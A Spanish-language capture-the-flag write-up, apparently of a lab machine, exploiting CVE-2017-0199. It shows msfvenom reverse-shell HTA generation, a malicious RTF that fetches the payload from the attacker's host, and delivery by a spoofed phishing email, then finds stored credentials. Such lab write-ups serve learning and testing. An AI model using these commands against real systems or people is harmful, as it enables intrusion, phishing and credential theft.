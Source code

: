 Investigando en internet sobre weaponización de archivos *RTF* descubro el *CVE 2017-0199* que permite obtener **RCE** a través de un fallo en Office inyectando código malicioso en un archivo *RTF* el cual se ejecuta al abrir dicho archivo.

En github encuentro un repositorio ([CVE-2017-0199: Exploit toolkit](https://github.com/bhdresh/CVE-2017-0199)) que contiene un script en python para crear documentos *RTF* maliciososos aprovechando el *CVE*.

Buscando un poco más encuentro un blog donde explican al detalle como se explota la vulnerabilidad [Explotación práctica de CVE-2017-0199 (Windows RTF RCE)](https://www.hackplayers.com/2017/04/explotacion-practica-de-cve-2017-0199.html)

Lo primero es generar un archivo *MTA* que será el que contenga el código malicioso y estará hosteado en nuestra máquina, miro si con *msfvenom* puedo generarlo:

<img title="" src="https://user-images.githubusercontent.com/55555187/185094552-61c7101d-2259-486e-aebd-a6d0223841d2.png" alt="image" width="345">

Genero el archivo *MTA* especificando como payload una reverse shell hacia mi máquina:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f hta-psh -o procedure.hta
```

<img title="" src="https://user-images.githubusercontent.com/55555187/185095331-6dc5eb90-acff-43fd-b986-184344bbe7d7.png" alt="image" width="665">

Genero el documento *RTF* haciendo uso del script en python de Github, la idea es que el archivo *RTF* una vez abierto ejecute el contenido del *MTA*: 

```bash
python2 /opt/evil-rtf/cve2017-0199.py -M gen -w procedure.rtf -u http://10.10.14.8/procedure.hta -t RTF -x 0
```

![image](https://user-images.githubusercontent.com/55555187/185095689-9e6d8fd1-f193-4767-b752-c377f8f70bb7.png)

Hosteo el archivo *MTA* en un servidor *HTTP* usando *Python*, me pongo en escucha con *netcat* y envio un correo  a nico@megabank.com usando *SendEmail*:

```bash
sendEmail -f kripteria@megabank.con -t nico@megabank.com -u "new procedures" -m "Hi, i attach the new procedures" -s 10.10.10.77 -a procedure.rtf
```

Envio el correo, *Nico* lo abre, se ejecuta el documento *RTF* que injecta el *HTA* y este me proporciona una shell:

![image](https://user-images.githubusercontent.com/55555187/185096699-d704d358-7066-4990-af90-7775e8305396.png)

## Escalada de privilegios

Una vez dentro reviso los permisos de *Nico* y los grupos a los que pertenece pero no encuentro nada relevante, dentro de su escritorio observo un archivo *creds.xml* que contiene las credenciales del usuario *Tom*: 

<img title="" src="https://user-images.githubusercontent.com/55555187/185097835-7f329a09-8920-4034-a6e3-37eba502bd31.png" alt="image" width="482">
